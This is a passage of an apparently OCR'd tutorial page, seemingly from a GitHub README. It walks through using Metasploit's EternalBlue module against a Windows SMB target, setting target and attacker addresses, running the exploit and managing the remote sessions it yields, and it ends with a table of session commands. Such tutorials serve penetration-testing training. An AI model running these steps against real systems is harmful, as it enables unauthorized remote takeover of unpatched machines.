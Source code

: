    ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```

2. **Show Options and Set Targets**
   - **Display module options:**

   ```bash
   show options
   ```

   - **Set the target IP address:**

   ```bash
   set RHOSTS 192.168.1.100  # IP of the target machine
   set LHOST 192.168.1.50    # Your local IP (attacker's machine)
   ```

3. **Run the Exploit**
   - **Execute the exploit to attempt to gain a session:**

   ```bash
   exploit
   ```

4. **Interact with the Session**
   - **List active sessions:** Once the exploit is successful, a session will be created.

   ```bash
   sessions
   ```

   - **Interact with the session:** Choose to interact with the newly created session.

   ```bash
   sessions -i 1  # Replace "1" with the session ID number you want to interact with.
   ```

## Summary of Key Commands Related to Sessions

Auxiliary modules are typically used for scanning or gathering information and do not create sessions, while exploit modules are designed to take advantage of vulnerabilities to establish a session on the target machine. Using the right module is crucial for successful exploitation and session management.

| **Command**                     | **Description**                                               |
|---------------------------------|---------------------------------------------------------------|
| **sessions**                    | List all active sessions.                                    |
| **sessions -i [session_id]**    | Interact with a specific session based on its ID.           |
| **sessions -l**                 | List sessions with detailed information.                     |
| **sessions -k [session_id]**    | Kill a specific session.                                     |
